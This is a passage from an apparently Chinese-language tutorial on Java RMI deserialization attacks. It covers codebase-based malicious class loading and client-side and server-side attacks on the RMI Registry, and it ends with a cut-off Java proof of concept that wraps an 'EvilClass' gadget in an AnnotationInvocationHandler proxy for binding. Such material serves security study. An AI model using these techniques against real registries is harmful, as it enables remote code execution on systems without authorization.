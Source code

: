 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708052479450-0e5152c3-f3ba-4350-a1aa-fdd3e4ae324c.png#averageHue=%232e333c&clientId=uba8eeb93-14fe-4&from=paste&height=653&id=ub43a6033&originHeight=979&originWidth=1703&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=430359&status=done&style=none&taskId=ubac832ee-5d7b-4100-b3ff-7c4cff78bcb&title=&width=1135.3333333333333)

待会反序列化的时候会调用 resolveClass 方法
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708052607407-9ba15498-059f-4e9a-a5e9-9b26c1516366.png#averageHue=%232e333c&clientId=uba8eeb93-14fe-4&from=paste&height=635&id=u12593e83&originHeight=953&originWidth=1659&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=465262&status=done&style=none&taskId=ub597cac9-2876-48e7-a881-099932b7269&title=&width=1106)
这里的逻辑：首先调用 readLocation ，获取到 Codebase 的地址，然后获取到我们想要反序列化的类名，之后检测一下`useCodebaseOnly`是否开启
然后就开始调用 `RMIClassLoader`的 loadClass 方法，跟进
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708063428698-3c216483-8748-435e-99f7-df2a9f220ea4.png#averageHue=%232f343d&clientId=u1d7260be-9af7-4&from=paste&height=189&id=u241cb9af&originHeight=284&originWidth=1141&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=101796&status=done&style=none&taskId=u77bc3b6f-db0d-4978-a8d2-c6f99fc247a&title=&width=760.6666666666666)
这里的话需要一直跟进到`sun.rmi.server.LoaderHandler`的 loadClassForName
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708063550607-e3eaf34b-726e-4536-8f17-79ec83d3226f.png#averageHue=%232e343d&clientId=u1d7260be-9af7-4&from=paste&height=207&id=ub07ebeaa&originHeight=311&originWidth=1690&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=142963&status=done&style=none&taskId=uec1197d2-c956-492f-ac30-1b46dec9e2f&title=&width=1126.6666666666667)
通过 Class.forName 来实现类加载，这里传入了自定的类加载器`LoaderHandler$Loader`
而这里的 Loader 也是 URLClassLoader 的子类
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708063662679-ed429453-40bf-4923-9d44-d4ad1a5f8f5a.png#averageHue=%232e333c&clientId=u1d7260be-9af7-4&from=paste&height=230&id=u91c319ce&originHeight=345&originWidth=1074&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=94561&status=done&style=none&taskId=ua62ffb96-67a8-4c8a-a72a-7824ba68b03&title=&width=716)
不论是 Client 端还是 Server 端，两端只要有一段配置了 `java.rmi.server.codebase` 那么 Client 就能够通过这个参数传递 Server 端不存在的类，pushServer 端去恶意 codebase 加载恶意类了

### 0x02 攻击对象为 Registry
#### 1x01 客户端攻击 Registry
先看客户端，很明显的就是直接 lookup，然后经由注册中心的 `RegistryImpl_Skel` 的 dispatch 方法中关于 lookup 的处理逻辑
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708066534006-bb12a8b1-3474-452b-84c5-e1fde3cb4ed0.png#averageHue=%232e333d&clientId=u1d7260be-9af7-4&from=paste&height=250&id=uf0b0aa4b&originHeight=375&originWidth=1578&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=169299&status=done&style=none&taskId=u7050c684-d516-4c90-972d-b326a2063d3&title=&width=1052)
那么这里的反序列化的啥呢？是我们 lookup 参数中传入的指定远程对象的名称
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708066794057-47075f2a-87f4-44f8-90ae-3b42bf3c35eb.png#averageHue=%23343b47&clientId=u1d7260be-9af7-4&from=paste&height=23&id=u04d73b73&originHeight=34&originWidth=1002&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=18150&status=done&style=none&taskId=u73224685-92ec-4793-a258-3a99501d506&title=&width=668)
就比如说这里的 Hello
那我们可以将序列化数据传入 lookup 的参数，只需注意这里必须是字符串参数才能接受

#### 1x02 Server 攻击 Registry
Server 端与注册中心有很多交互的可能，bind rebind 等，回顾一下服务端对注册中心交互的流程，获取到注册中心对象，创建了 Stub 动态代理对象，给 Registry 端发送了信息，新线程开启，并且开始调入 UnicastServerRef 的 dispatch 方法，又由于此时是在注册中心端处理的逻辑，进入 olddispatch，调用 RegistryImpl_Skel 的 dispatch （可以往 2-2-0x01 复习一下流程）
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1708070621304-e585564b-38d0-4dad-a0f6-701a001e28b0.png#averageHue=%232e333c&clientId=u1d7260be-9af7-4&from=paste&height=399&id=u85181f94&originHeight=599&originWidth=1494&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=228119&status=done&style=none&taskId=u2f9c63e2-c9d3-436a-9b1a-6312da3c6be&title=&width=996)
有两处的反序列化操作，一个是绑定的键----var7，一个是绑定的我们传入的远程对象，第一个是 String 类型，没有利用可能，只能看第二个参数的反序列化，必须继承自 Remote 接口，之后就可以直接打 CC 等
实现的话我们直接用 AnnotationInvocationHandler 来代理了 Remote 接口  即可
代码实现可以参考如下
```java
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.util.HashMap;
import  java.rmi.registry.*;


public class POCtest {
    public static void main(String[] args) throws Exception {
        LocateRegistry.createRegistry(1099);
        Registry registry= (Registry) LocateRegistry.getRegistry("localhost",1099);
        Class<?> c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String,Object> map=new HashMap<>();
        map.put("a",new EvilClass().getEvil());

        InvocationHandler invocationHandler=(InvocationHandler) constructor.newInstance(Target.class,map);
        Remote remote= (Remote)  Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
```
